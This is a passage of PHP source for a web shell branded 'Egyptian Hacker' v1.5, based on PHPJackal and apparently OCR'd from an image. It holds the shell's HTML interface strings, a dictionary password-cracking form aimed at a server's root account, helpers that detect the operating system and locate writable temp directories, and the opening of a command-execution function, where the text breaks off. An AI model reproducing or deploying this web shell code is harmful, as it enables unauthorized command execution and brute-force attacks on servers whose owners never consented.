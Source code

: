 function showsizE($size){
if ($size&gt;=1073741824)$size = round(($size/1073741824) ,2)." GB";
elseif ($size&gt;=1048576)$size = round(($size/1048576),2)." MB";
elseif ($size&gt;=1024)$size = round(($size/1024),2)." KB";
else $size .= " B";
return $size;
}
if (substr((strtoupper(php_unamE())),0,3)=="WIN") $windows=1; else $windows=0;
$errorbox = "&lt;table border=0 cellpadding=0 cellspacing=0 style=\"border-collapse: collapse\" bordercolor=\"#282828\" bgcolor=\"#333333\" width=\"100%\"&gt;&lt;tr&gt;&lt;td&gt;&lt;b&gt;Error: &lt;/b&gt;";
$et = "&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;";
$v="1.5";
$msgbox="&lt;br&gt;&lt;table border=0 cellpadding=0 cellspacing=0
 style=\"border-collapse: collapse\" bordercolor=\"#282828\"
 bgcolor=\"#333333\" width=\"100%\"&gt;&lt;tr&gt;&lt;td align=\"center\"&gt;";
$intro="&lt;center&gt;&lt;table border=0 style=\"border-collapse: collapse\"
 bordercolor=\"#282828\"&gt;&lt;tr&gt;&lt;td bgcolor=\"#330000\"&gt;&lt;b&gt;Script:&lt;/b&gt;&lt;br&gt;"
 .str_repeat("-=-",25)."&lt;br&gt;&lt;b&gt;Name:&lt;/b&gt; Egyptian Hacker&lt;br&gt;&lt;b&gt;Version:&lt;/b&gt;
  $v&lt;br&gt;&lt;br&gt;&lt;b&gt;Author:&lt;/b&gt;
  &lt;br&gt;".str_repeat("-=-",25)."&lt;br&gt;
  &lt;b&gt;Name:&lt;/b&gt; Elswify Scripts&lt;br&gt;&lt;b&gt;Country:&lt;/b&gt;
  Egypt&lt;br&gt;&lt;b&gt;Email:&lt;/b&gt; &lt;a href=\"mailto:elswifymoka122@yahoo.com?subject=PHPJackal\"&gt;elswifymoka122@yahoo.com&lt;/a&gt;&lt;br&gt;&lt;/font&gt;$et&lt;/center&gt;";
$footer="${msgbox}PHPJackal v$v - Powered By &lt;a href=\"http://netjackal.by.ru\" target=\"_blank\"&gt;NetJackal&lt;/a&gt;$et";
$hcwd="&lt;input type=hidden name=workingdiR value=\"".getcwd()."\"&gt;";
$t = "&lt;table border=0 style=\"border-collapse: collapse\" bordercolor=\"#282828\" width=\"40%\"&gt;&lt;tr&gt;&lt;td width=\"40%\" bgcolor=\"#333333\"&gt;";
$crack="&lt;/td&gt;&lt;td bgcolor=\"#333333\"&gt;&lt;/td&gt;&lt;/tr&gt;&lt;form method=\"POST\" name=form&gt;&lt;tr&gt;&lt;td width=\"20%\" bgcolor=\"#666666\"&gt;Dictionary:&lt;/td&gt;&lt;td bgcolor=\"#666666\"&gt;&lt;input type=text name=dictionary size=35&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td width=\"20%\" bgcolor=\"#808080\"&gt;Dictionary type:&lt;/td&gt;&lt;td bgcolor=\"#808080\"&gt;&lt;input type=radio name=combo checked value=0 onClick=\"document.form.user.disabled = false;\" style=\"border-width:1px;background-color:#808080;\"&gt;Simple (P)&lt;input type=radio value=1 name=combo onClick=\"document.form.user.disabled = true;\" style=\"border-width:1px;background-color:#808080;\"&gt;Combo (U:P)&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td width=\"20%\" bgcolor=\"#666666\"&gt;Username:&lt;/td&gt;&lt;td bgcolor=\"#666666\"&gt;&lt;input type=text size=35 value=root name=user&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td width=\"20%\" bgcolor=\"#808080\"&gt;Server:&lt;/td&gt;&lt;td bgcolor=\"#808080\"&gt;&lt;input type=text name=target value=localhost size=35&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td width=\"20%\" bgcolor=\"#666666\"&gt;&lt;/td&gt;&lt;td bgcolor=\"#666666\" align=right&gt;$hcwd&lt;input class=buttons type=submit value=Start&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/form&gt;&lt;/table&gt;&lt;/center&gt;";
function namE(){
$name='';
srand((double)microtime()*100000);
for ($i=0;$i&lt;=rand(3,10);$i++){
$name.=chr(rand(97,122));
}
return $name;
}
function whereistmP(){
$uploadtmp=ini_get('upload_tmp_dir');
$envtmp=(getenv('TMP'))?getenv('TMP'):getenv('TEMP');
if(is_dir('/tmp') && is_writable('/tmp'))return '/tmp';
if(is_dir('/usr/tmp') && is_writable('/usr/tmp'))return '/usr/tmp';
if(is_dir('/var/tmp') && is_writable('/var/tmp'))return '/var/tmp';
if(is_dir($uploadtmp) && is_writable($uploadtmp))return $uploadtmp;
if(is_dir($envtmp) && is_writable($envtmp))return $envtmp;
return ".";
}
function shelL($command){